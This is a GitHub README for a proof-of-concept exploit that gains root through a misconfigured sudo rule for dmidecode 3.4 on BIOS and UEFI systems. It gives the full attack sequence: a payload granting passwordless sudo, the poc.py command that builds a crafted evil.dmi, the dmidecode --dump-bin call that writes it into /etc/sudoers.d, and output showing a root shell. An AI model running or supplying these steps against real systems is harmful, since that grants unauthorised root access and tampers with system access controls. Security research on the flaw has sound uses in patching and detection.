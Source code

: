 # dmiescalate

> Privilege escalation using dmidecode (<=3.4) on BIOS and UEFI systems.

Inspired by: https://github.com/adamreiser/dmiwrite

## Background
I recently ran into the following issue trying to escalate privileges via `dmidecode` sudo rule using [dmiwrite](https://github.com/adamreiser/dmiwrite):
```bash
$ sudo dmidecode --no-sysfs -d evil.dmi --dump-bin /etc/sudoers.d/pwn
# dmidecode 3.4
# SMBIOS entry point at 0x0efc2000
Found SMBIOS entry point in EFI, reading table from evil.dmi.
mmap: Can't map beyond end of file evil.dmi
```
Due to the presence of `/sys/firmware/efi/systab` on the system `dmidecode` didn't seem to take the paths expected by `dmiwrite`. As a result the crafted `evil.dmi` failed us.
This poc is capable of handling both BIOS and UEFI systems. Set `OFFSET` and `END_PAD` accordingly.

## Usage Example

> Note: The file write always outputs some garbage bytes first. Make sure to add a newline at the beginning of the payload.

Prepare payload:
```bash
$ echo "\nkali ALL=(ALL:ALL) NOPASSWD: ALL" > payload
```
Create `evil.dmi`:
```bash
$ python poc.py payload evil.dmi
Using offset: 0xefc2000
Using end padding size: 0x0
Read 34 bytes from payload file payload
SM:  5F 53 4D 5F 00 1F 02 01 00 00 00 00 00 00 00 80
DMI: 5F 44 4D 49 5F 00 22 00 00 00 00 00 01 00 45 00
Writing 251404320 bytes to evil.dmi
Done!
```
Run `dmidecode`:
```bash
$ sudo dmidecode --no-sysfs -d evil.dmi --dump-bin /etc/sudoers.d/pwn
# dmidecode 3.4
# SMBIOS entry point at 0x0efc2000
Found SMBIOS entry point in EFI, reading table from evil.dmi.
SMBIOS 2.1 present.
1 structures occupying 34 bytes.
Table at 0x00000000.

# Writing 34 bytes to /etc/sudoers.d/pwn.
# Writing 31 bytes to /etc/sudoers.d/pwn.
```
Escalate:
```bash
$ sudo su
/etc/sudoers.d/pwn:1:5: syntax error
_SM_
   ^
$ id
uid=0(root) gid=0(root) groups=0(root)
```
